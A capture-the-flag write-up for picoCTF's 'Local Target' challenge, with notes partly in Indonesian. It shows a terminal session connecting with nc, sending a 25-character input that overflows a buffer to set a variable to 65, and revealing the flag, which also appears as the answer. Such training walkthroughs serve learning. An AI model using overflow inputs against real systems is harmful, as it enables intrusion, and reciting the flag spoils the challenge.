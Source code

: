 <h1>Local Target</h1>
<h3>Description</h3>
<p>Smash the stack
Can you overflow the buffer and modify the other local variable? The program is available <a href='https://artifacts.picoctf.net/c/519/local-target'>here</a>. You can view source <a href='https://artifacts.picoctf.net/c/519/local-target.c'>here</a>. And connect with it using:
nc saturn.picoctf.net 52517</p>
<h3>Solution</h3>

<p>Cari overflow dari program dan input character awal overflow dengan desimal 65 = "A"</p>

```console
root@xisco-VirtualBox:/home/xisco/Downloads# nc saturn.picoctf.net 52517
Enter a string: aaaaaaaaaaaaaaaaaaaaaaaaA

num is 65
You win!
picoCTF{l0c4l5_1n_5c0p3_ee58441a}
```

<p>Overflow pada character 25</p>
<h3>Flag</h3>
<pre>
picoCTF{l0c4l5_1n_5c0p3_ee58441a}
</pre>

